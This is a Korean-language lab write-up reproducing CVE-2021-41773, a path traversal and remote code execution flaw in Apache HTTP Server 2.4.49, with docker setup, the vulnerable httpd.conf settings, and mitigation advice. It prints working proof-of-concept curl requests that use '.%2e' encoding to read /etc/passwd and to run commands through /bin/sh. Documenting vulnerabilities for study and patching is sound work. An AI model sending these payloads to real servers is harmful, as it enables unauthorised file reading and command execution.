



# CVE-2021-41773
#### Apache HTTP Server 경로 정규화 결함으로 인한 경로 탐색 및 원격 코드 실행

**contributors**
고정민(@dongsal16)

---


### 취약점 요약

 Apache HTTP Server는 오픈소스 웹 서버 소프트웨어이다.
 CVE-2021-41773은 Apache HTTP Server 2.4.49에서 발견된 경로 탐색 및 원격 코드 실행 취약점이다.

URL 경로 정규화 로직의 결함으로 인해 상위 디렉터리 이동 문자(`..`)를 URL 인코딩한 `.%2e` 또는 `%2e%2e` 패턴으로 필터링 우회가 가능하다.

CVE-2021-41773은 웹 루트 외부 파일에 대한 접근 제어가 적용되지 않은 경우에 발생하며, CGI 실행 모듈이 함께 활성화된 경우 인등 없이 원격에서 임의 파일 읽기를 넘어 명령 실행도 가능하다.


---

### 환경 구성

Apache HTTP Server 2.4.49를 시작하기 위해 다음 명령을 실행한다.
```bash
docker compose up -d --build
```
서버가 시작된 후 `http://localhost:8080` 접속 시 Apache 기본 페이지(`It works!`)가 출력된다.

---

### 취약 조건

CVE-2021-41773 취약점이 나타나려면 대상 Apache HTTP Server의 설정 파일(httpd.conf)이 아래 3가지 조건을 만족해야 한다.

#### 1. 루트 디렉터리 접근 제어 완화
- 웹 루트 바깥의 임의 파일 접근을 허용함
```apache
<Directory />
	Require all granted
</Directory>
```

#### 2. CGI 실행 모듈(mod_cgid) 활성화
- 웹루트 밖 파일을 CGI로 실행할 수 있는 상태가 됨
```apache
<IfModule !mpm_prefork_module>
	LoadModule cgid_module modules/mod_cgid.so
</IfModule>
```

#### 3. CGI 디렉터리 내 스크립트 실행 허용
- 시스템 바이너리를 통해 원격 코드 실행이 가능함
```apache
<Directory "/usr/local/apache2/cgi-bin"> 
	Options +ExecCGI
</Directory>
```

---

### 재현 절차 및 PoC 코드

1. 취약 환경 실행
`docker compose up -d --build`

2. 컨테이너 정상 기동 확인
`docker compose ps`

3. 경로 탐색을 통한 임의 파일 읽기 시도
`curl --path-as-is "http://localhost:8080/cgi-bin/.%2e/.%2e/.%2e/.%2e/etc/passwd"`

4. 컨테이너 로그를 통한 경로 탐색 성공 여부 확인
`docker compose logs httpd`

5. 경로 탐색를 통한 원격 코드 실행을 시도
`curl --path-as-is "http://localhost:8080/cgi-bin/.%2e/.%2e/.%2e/.%2e/bin/sh" -d "echo;id"`

7. 환경 종료
`docker compose down`

---

### 실행 결과

**경로 탐색 시도 결과**


- 500 Internal Server Error가 반환된다.
- CGI 디렉터리(/cgi-bin/) 설정으로 인해 Apache 서버가 일반 텍스트 파일인 passwd를 스크립트로 오인하여 강제 실행(exec)하려다 발생한 오류이다.


- 서버 로그(AH01241: exec of '/etc/passwd' failed)를 통해 웹 루트 외부 파일로의 경로 탐색(Path Traversal) 자체는 성공했음을 입증한다.

**원격 코드 실행 결과**

- 우회된 경로로 시스템 셸 바이너리(/bin/sh)에 접근하여 id 명령어를 전달한 결과, uid=1(daemon) gid=1(daemon) groups=1(daemon) 권한으로 명령어가 정상적으로 실행된다.

---

### 대응 방안

Apache HTTP Server 2.4.51 이상으로 업데이트한다.
(2.4.50은 패치가 불완전하여 CVE-2021-42013으로 지정됨)
